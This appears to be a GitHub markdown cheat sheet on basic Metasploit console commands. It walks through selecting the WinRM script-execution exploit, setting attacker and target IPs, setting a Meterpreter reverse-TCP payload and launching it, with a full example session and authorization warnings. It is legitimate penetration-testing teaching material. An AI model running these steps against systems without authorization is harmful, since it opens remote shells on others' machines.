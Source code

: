 # Metasploit Framework Basic Commands

## Overview
This document contains terminal-based commands and usage examples for Metasploit Framework (`msfconsole`) to assist with penetration testing tasks.

---

## Commands and Usage

```
# Launch Metasploit Console
msfconsole
```

- Purpose:
- Starts the Metasploit interactive console.
- Note: Ensure Metasploit is installed (typically at /usr/share/metasploit-framework)

# Show Available Payloads
```
show payloads
```
- Purpose:
- Lists all available payloads in the current module context.
- Example: windows/meterpreter/reverse_tcp

# Show Available Exploits
```
show exploits
```
- Purpose:
- Lists all exploit modules.
- Note: 'show exploit' (singular) may work on older versions,
- but 'show exploits' is standard and preferred.

# Select WinRM Exploit
```
use exploit/windows/winrm/winrm_script_exec
```

- Purpose:
- Selects the WinRM Script Execution exploit for Windows systems.
- Location: /usr/share/metasploit-framework/modules/exploits/windows/winrm/

# Show Exploit Information
```
show info
```

- Purpose:
- Displays detailed information about the selected exploit,
- including author, platform, references, and payloads supported.

# Show Exploit Options
```
show options
```
- Purpose:
- Displays required and optional configuration values
- such as RHOSTS (target IP) and LHOST (attacker IP).

# Set Local Host IP
```
set LHOST 192.<local_ip>
```
- Purpose:
- Specifies attacker's IP address for reverse connections.
- Replace <local_ip> with actual IP (use `ip a` or `ifconfig` to find it).

# Set Remote Host IP
```
set RHOST 192.<target_ip>
```
- Purpose:
- Sets the target system's IP address.
- Replace <target_ip> with the actual IP of the system being tested.
- Warning: Only test machines you are authorized to assess.

# Set Payload
```
set PAYLOAD windows/meterpreter/reverse_tcp
```
- Purpose:
- Defines the payload used during exploitation.
- Must be compatible with the chosen exploit.

# Launch the Exploit
```
exploit
```
- Purpose:
- Executes the configured exploit with the selected options and payload.
- You may also use 'run' as an alias.

```
msfconsole
msf6 > show exploits
msf6 > use exploit/windows/winrm/winrm_script_exec
msf6 exploit(windows/winrm/winrm_script_exec) > show info
msf6 exploit(windows/winrm/winrm_script_exec) > show options
msf6 exploit(windows/winrm/winrm_script_exec) > set LHOST 192.168.1.100
msf6 exploit(windows/winrm/winrm_script_exec) > set RHOST 192.168.1.150
msf6 exploit(windows/winrm/winrm_script_exec) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(windows/winrm/winrm_script_exec) > exploit
```
### best practice

```
# Ensure Exploit Compatibility
# - Use 'show info' to confirm the exploit matches the target system.

# Handle IPs Securely
# - Avoid sharing real IPs in public files.
# - Use placeholders like <local_ip> or <target_ip> in notes.

# Permissions
# - Only run exploits on authorized test machines.

# Keep Metasploit Updated
```
msfupdate
```
# Choose Payloads Wisely
# - Use 'show payloads' to find compatible ones for the exploit.
```